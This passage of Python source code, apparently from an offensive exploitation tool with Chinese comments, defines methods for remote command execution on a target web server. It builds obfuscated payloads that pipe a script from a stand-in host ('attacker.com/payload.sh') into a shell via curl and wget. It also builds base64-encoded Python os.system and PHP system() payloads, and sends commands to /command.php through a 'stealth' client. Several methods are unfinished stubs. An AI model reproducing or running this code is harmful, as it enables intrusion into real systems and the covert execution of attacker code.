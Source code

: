 ```python
    
    def _fingerprint_version(self, response_text):
        """指纹识别版本"""
        # 实现版本检测逻辑
        return True
    
    def _exec_method_curl(self):
        """使用 curl 执行命令"""
        cmd = "id"
        obfuscated_cmd = self.obfuscator.obfuscate_bash_command(cmd)
        
        # 使用 curl 下载并执行
        payload = f"curl -s http://attacker.com/payload.sh | {obfuscated_cmd}"
        return self._execute_obfuscated(payload)
    
    def _exec_method_wget(self):
        """使用 wget 执行命令"""
        cmd = "uname -a"
        obfuscated_cmd = self.obfuscator.obfuscate_bash_command(cmd)
        
        payload = f"wget -q -O - http://attacker.com/payload.sh | {obfuscated_cmd}"
        return self._execute_obfuscated(payload)
    
    def _exec_method_python(self):
        """使用 Python 执行命令"""
        python_payload = """
import os,base64
cmd=base64.b64decode('{}').decode()
os.system(cmd)
""".format(base64.b64encode(b"id").decode())
        
        return self._execute_via_python(python_payload)
    
    def _exec_method_php(self):
        """使用 PHP 执行命令"""
        php_payload = "<?php system(base64_decode('{}')); ?>".format(
            base64.b64encode(b"id").decode()
        )
        
        return self._execute_via_php(php_payload)
    
    def _execute_obfuscated(self, command):
        """执行混淆后的命令"""
        # 实现命令执行逻辑
        data = {
            'cmd': command,
            'submit': 'Execute'
        }
        
        response = self.stealth_client.stealth_request(
            method="POST",
            path="/command.php",
            data=data,
            session=self.session
        )
        
        return response and response.status_code == 200
    
    def _execute_via_python(self, python_code):
        """通过 Python 执行"""
        # 实现 Python 代码执行
        pass
    
```
